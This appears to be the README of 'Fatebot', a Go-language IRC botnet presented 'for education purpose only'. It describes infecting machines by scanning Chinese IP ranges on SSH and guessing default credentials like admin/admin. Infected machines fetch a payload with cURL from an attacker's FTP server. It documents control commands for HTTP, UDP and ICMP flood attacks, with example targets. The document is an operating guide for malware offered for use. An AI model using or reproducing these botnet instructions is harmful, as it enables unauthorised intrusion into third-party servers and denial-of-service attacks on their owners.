


<h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

# DDoS
Raw socket programming is really hard for me and I don't know about exploit development,
But raw socket need it(exploit) to get a permission for run it. In <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com/</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP packets to target.(I know it's a old school DoS, lol.)
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
